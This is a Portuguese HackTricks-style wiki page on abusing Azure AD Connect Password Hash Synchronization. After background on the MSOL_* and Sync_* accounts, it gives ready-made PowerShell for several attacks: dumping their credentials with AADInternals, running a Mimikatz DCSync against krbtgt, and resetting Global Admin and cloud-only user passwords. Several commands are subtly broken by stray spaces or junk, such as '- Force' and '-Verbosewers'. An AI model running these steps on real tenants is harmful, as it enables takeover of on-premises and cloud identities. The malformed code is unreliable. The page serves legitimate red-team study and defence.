 # Az - PHS - Sincronização de Hash de Senha

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Informações Básicas

[Dos documentos:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **A sincronização de hash de senha** é um dos métodos de login usados para realizar identidade híbrida. **Azure AD Connect** sincroniza um hash, do hash, da senha de um usuário de uma instância do Active Directory local para uma instância do Azure AD baseada em nuvem.

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

É o **método mais comum** usado por empresas para sincronizar um AD local com o Azure AD.

Todos os **usuários** e um **hash dos hashes de senha** são sincronizados do local para o Azure AD. No entanto, **senhas em texto claro** ou os **hashes** **originais** não são enviados para o Azure AD.\
Além disso, grupos de segurança **integrados** (como administradores de domínio...) **não são sincronizados** com o Azure AD.

A **sincronização de hashes** ocorre a cada **2 minutos**. No entanto, por padrão, **expiração de senha** e **expiração de conta** **não são sincronizadas** no Azure AD. Assim, um usuário cuja **senha local expirou** (não alterada) pode continuar a **acessar recursos do Azure** usando a senha antiga.

Quando um usuário local deseja acessar um recurso do Azure, a **autenticação ocorre no Azure AD**.

**PHS** é necessário para recursos como **Proteção de Identidade** e Serviços de Domínio AAD.

## Pivotando

Quando o PHS é configurado, algumas **contas privilegiadas** são automaticamente **criadas**:

* A conta **`MSOL_<installationID>`** é automaticamente criada no AD local. Esta conta recebe um papel de **Contas de Sincronização de Diretório** (veja [documentação](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)), o que significa que ela tem **permissões de replicação (DCSync) no AD local**.
* Uma conta **`Sync_<nome do servidor ADConnect local>_installationID`** é criada no Azure AD. Esta conta pode **reiniciar a senha de QUALQUER usuário** (sincronizado ou apenas em nuvem) no Azure AD.

As senhas das duas contas privilegiadas anteriores são **armazenadas em um servidor SQL** no servidor onde **Azure AD Connect está instalado.** Os administradores podem extrair as senhas desses usuários privilegiados em texto claro.\
O banco de dados está localizado em `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

É possível extrair a configuração de uma das tabelas, sendo uma criptografada:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

A **configuração criptografada** é criptografada com **DPAPI** e contém as **senhas do usuário `MSOL_*`** no AD local e a senha de **Sync\_\*** no AzureAD. Portanto, comprometendo essas informações, é possível obter privilégios elevados no AD e no AzureAD.

Você pode encontrar uma [visão geral completa de como essas credenciais são armazenadas e descriptografadas nesta palestra](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Encontrando o **servidor de conexão do Azure AD**

Se o **servidor onde o Azure AD connect está instalado** estiver associado ao domínio (recomendado na documentação), é possível encontrá-lo com:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### Abusando MSOL\_\*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
Você também pode usar [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) para obter essas credenciais.
{% endhint %}

### Abusando Sync\_\*

Comprometendo a conta **`Sync_*`** é possível **reiniciar a senha** de qualquer usuário (incluindo Administradores Globais)
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
É também possível **modificar as senhas de apenas usuários da nuvem** (mesmo que isso seja inesperado)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
É também possível despejar a senha deste usuário.

{% hint style="danger" %}
Outra opção seria **atribuir permissões privilegiadas a um principal de serviço**, que o usuário **Sync** tem **permissões** para fazer, e então **acessar esse principal de serviço** como uma forma de privesc.
{% endhint %}

### SSO Sem Costura

É possível usar SSO Sem Costura com PHS, que é vulnerável a outros abusos. Confira em:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Referências

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
